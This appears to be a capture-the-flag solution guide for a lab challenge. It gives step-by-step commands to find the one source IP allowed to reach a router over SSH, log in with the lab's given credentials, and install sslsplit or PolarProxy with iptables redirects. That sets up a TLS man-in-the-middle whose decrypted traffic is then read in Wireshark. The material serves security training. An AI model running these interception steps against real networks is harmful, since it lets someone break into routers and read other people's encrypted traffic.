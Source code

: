 # Interplanetary Internet Interception

_Solution Guide_

## Overview

This challenge asks the competitor to figure out which IP address to set their system to (and then set it), and then use one of two provided tools to intercept and decrypt TLS traffic.

## Question 1

_What is the only IP address that the default gateway (router) will accept SSH connections from on your subnet?_

First, we'll need to find the bypass address mentioned in the challenge guide using a shell script.

On the Kali system, run the following command to find the IP address that can reach the router/default gateway on TCP/22.

   ```
   for i in `seq 2 254`; do sudo ip addr flush dev eth0 && sudo ip addr add 172.17.6.$i/24 dev eth0 && echo 'Trying 172.17.6.'$i && nc 172.17.6.1 22 & sleep 1; done
   ```

When a string is returned that indicates the Ubuntu system's SSH banner, the IP address above the banner is the correct IP address.

## Question 2

_What is the ID of the correct mission name in the HTTPS traffic?_

This solution breaks the problem into multiple smaller steps. First, we need to actually capture the mission traffic. Then, we have a choice of tools to decrypt it. Finally, we'll actually examine the traffic and find the correct mission from the packet data.

### Intercepting the traffic

1. Append the following to the /etc/network/interfaces file, except replace 77 with the IP address discovered in the previous step.

   ```
   auto eth0
   iface eth0 inet static
   address 172.17.6.77/24
   gateway 172.17.6.1
   ```

2. Flush eth0 and restart the networking service to apply the new IP address (172.17.6.77 in the previous step).

   ```
   sudo ip addr flush dev eth0 && sudo systemctl restart networking
   ```

3. Verify your IP address is correctly set.

   ```
   ip a
   ```

4. SSH with the credentials in the challenge guide (**user:SecureThisShip!**) to the router/default gateway to verify you can establish this connection before transferring your TLS interception tool of choice.

   ```
   ssh user@172.17.6.1
   ```

5. On Kali, click the **iso** icon to see your choice of TLS interception tools (PolarProxy and/or sslsplit). Verify the absolute file path of these files. Open a second terminal tab or window (on your Kali) and SCP either PolarProxy or sslsplit to the router/default gateway. Either tool can be used for this challenge, and only one of the following two sections need to be followed.

   ```
   scp /media/cdrom0/sslsplit_deps.tar.gz user@172.17.6.1:~/
   ```
   **or**
   ```
   scp /media/cdrom0/PolarProxy_0-9-0_linux-x64.tar.gz user@172.17.6.1:~/
   ```

### (Choice 1) sslsplit

1. Navigate back to your first terminal window where you are SSH'd into the router/default gateway. Verify sslsplit_deps.tar.gz is now on the router/default gateway user's home directory.

   ```
   cd ~ && ls
   ```

2. Extract the sslsplit_deps.tar.gz file.

   ```
   tar xf sslsplit_deps.tar.gz
   ```

3. Install sslsplit and dependencies that were extracted.

   ```
   for i in *.deb; do sudo dpkg -i $i; done
   ```

4. Generate the RSA private key.

   ```
   openssl genrsa -out ca.key 4096
   ```

5. Generate a new X.509 certificate. Fill in the fields as you'd like.

   ```
   openssl req -new -x509 -days 365 -key ca.key -out ca.crt
   ```

6. Create two iptables rules to send 80 & 443 traffic to sslsplit. Technically, only 443 traffic is required for this challenge.

   ```
   sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
   sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
   ```

7. Run sslsplit and write the decrypted traffic to a pcap file.

   ```
   sslsplit -D -l conn.log -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080 -X decrypted.pcap
   ```

### (Choice 2) PolarProxy

1. Navigate back to your first terminal window where you are SSH'd into the router/default gateway. Verify PolarProxy_0-9-0_linux-x64.tar.gz is now on the router/default gateway user's home directory.

   ```
   cd ~ && ls
   ```

2. Extract the PolarProxy_0-9-0_linux-x64.tar.gz file.

   ```
   tar xf PolarProxy_0-9-0_linux-x64.tar.gz
   ```

3. Create two iptables rules to send the traffic to PolarProxy.

   ```
   sudo iptables -I INPUT -i ens32 -p tcp --dport 10443 -m state --state NEW -j ACCEPT
   sudo iptables -t nat -A PREROUTING -i ens32 -p tcp --dport 443 -j REDIRECT --to 10443
   ```

4. Run polarproxy and write the decrypted traffic to a pcap file.

   ```
   ./PolarProxy -v -p 10443,80,443 --insecure -w decrypted.pcap
   ```

### Analyze the decrypted.pcap file

1. Open a new terminal and scp the file from the default gateway/router to your Kali's home directory.

   ```
   scp user@172.17.6.1:~/decrypted.pcap ~/
   ```

2. Import the decrypted.pcap file into Kali's Wireshark.

   ```
   wireshark -r ~/decrypted.pcap
   ```

3. You should see all HTTPS traffic now decrypted as HTTP.

4. There are 120 Mission IDs that are queried per ~minute (1 every .5 seconds). Either sift through this pcap to find the correct mission ID, or you can click the magnifying glass, select **String**, select **Packet bytes**, search for **correct**, and click **Find**. Notice the intentional space before correct as this will ignore all strings that state incorrect. At the bottom (packet bytes panel), you should now see the correct MissionName and MissionID received.
